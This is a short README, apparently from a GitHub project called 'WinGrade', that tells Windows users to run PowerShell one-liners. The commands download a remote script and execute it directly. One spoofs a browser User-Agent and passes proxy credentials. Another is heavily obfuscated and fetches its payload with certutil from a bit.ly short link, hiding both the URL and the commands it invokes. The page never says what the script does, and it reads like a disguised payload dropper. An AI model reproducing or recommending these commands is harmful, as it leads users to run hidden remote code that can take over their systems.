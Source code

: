# WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.


Just execute [CMD]:
```powershell
powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"
```
or
```powershell
powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"
```
in [POWERSHELL]:

```powershell
powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"
```

Tested on following Operating Systems:

|   System    |  x64  |  x86  |
| ---         | :---: | :---: |
| Windows 10  |  [x]  |  [ ]  |
| Windows 8.1 |  [x]  |

This Script is still in the early Alpha release!!! And has some bugs
